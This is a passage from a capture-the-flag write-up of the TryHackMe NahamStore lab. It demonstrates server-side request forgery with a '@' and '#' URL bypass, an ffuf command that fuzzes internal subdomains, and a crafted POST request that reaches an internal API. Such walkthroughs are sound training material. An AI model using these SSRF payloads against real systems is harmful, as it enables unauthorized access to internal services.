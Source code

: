 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a42.png)

Page not found...

> Note: `@` is a common bypass technique for SSRF.

**Hmm... What if we commented out the appended path via adding `#`?**

```
product_id=1&server=stock.nahamstore.thm@127.0.0.1#
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a43.png)

We're pointed to the home page!

**Now we can try to fuzz internal subdomains via `ffuf`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/dns-Jhaddix.txt -u http://nahamstore.thm/stockcheck -X POST -d 'product_id=1&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#' -t 100
[...]
internal-api
```

- Found internal subdomain: `internal-api`

**We now can go to the `internal-api` internal subdomain:**
```
POST /stockcheck HTTP/1.1
[...]
product_id=1&server=stock.nahamstore.thm@internal-api.nahamstore.thm#
```
